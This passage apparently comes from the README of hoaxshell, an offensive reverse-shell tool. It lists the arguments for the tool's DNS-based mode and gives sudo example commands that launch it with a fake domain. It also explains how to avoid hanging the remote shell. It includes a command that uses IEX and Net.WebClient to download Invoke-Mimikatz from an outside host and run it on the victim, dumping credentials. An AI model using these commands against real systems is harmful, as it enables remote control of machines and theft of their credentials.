 | Argument | Description |
| --- | --- |
| `-s` / `--server-ip` | Your server IP |
|`-d` / `--domain` | The fake domain name to be used. |
|`-udp` / `--udp` | The UDP based server to be used for DNS queries. |
|`-tcp` / `--tcp` | The TCP based server to be used for DNS queries. |

#### **Examples:**
For UDP based DNS server:
```
sudo python3 hoaxshell.py -s <your_ip> -dns -d <your.fake-domain.com> -udp 
```
For TCP based DNS server:
```
sudo python3 hoaxshell.py -s <your_ip> -dns -d <your.fake-domain.com> -tcp 
```
For both UDP and TCP based DNS servers at a time:
```
sudo python3 hoaxshell.py -s <your_ip> -dns -d <your.fake-domain.com> -udp -tcp 
```

***Note:** Due to the limitation that PowerShell's `Resolve-DnsName` cmdlet does not support custom ports. This feature will only work if you have port **53** open on your server. Therefore, you cannot use it with any tunneling option. (`-lt` or `-ng`)*


## Limitations
The shell is going to hang if you execute a command that initiates an interactive session. Example:  
```
# this command will execute succesfully and you will have no problem: 
> powershell echo 'This is a test'

# But this one will open an interactive session within the hoaxshell session and is going to cause the shell to hang:
> powershell

# In the same manner, you won't have a problem executing this:
> cmd /c dir /a

# But this will cause your hoaxshell to hang:
> cmd.exe
```  

So, if you for example would like to run mimikatz throught hoaxshell you would need to invoke the commands:
```
hoaxshell > IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.13:4443/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
Long story short, you have to be careful to not run an exe or cmd that starts an interactive session within the hoaxshell powershell context.
